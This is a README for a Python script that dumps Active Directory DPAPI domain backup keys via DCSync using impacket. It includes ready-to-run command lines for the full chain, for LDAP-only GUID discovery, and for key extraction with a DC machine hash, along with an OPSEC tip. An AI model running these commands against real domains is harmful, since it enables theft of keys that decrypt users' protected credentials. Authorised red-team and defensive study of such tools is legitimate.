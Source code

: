 # dcsyncdpapikey

This script dumps the domain backup keys via DRSUAPI (DCSync). The heavy lifting is all done with impacket, so this
needs to be installed. The script extracts the required information from LDAP (objectclass=secret) and calls the
relevant DCSync Operation with the GUID of the secret object.

# Usage

```
# full chain

python3 dcsyncdpapikey.py domain/user:'pw'@target

# just dump GUIDS for backupkey via LDAP with a admin account, useful for OPSEC if you want to dcsync with DC machine hash

python3 dcsyncdpapikey.py domain/user:'pw'@target -ldap-only

# dump key via DCSync with extracted GUID

python3 dcsyncdpapikey.py domain/DC\$@target -hashes :hash -key-only --guid

```



# Credits

@SecureAuthCorp for their Impacket project, which this entire project utilizes to interact with windows services: https://github.com/SecureAuthCorp/impacket
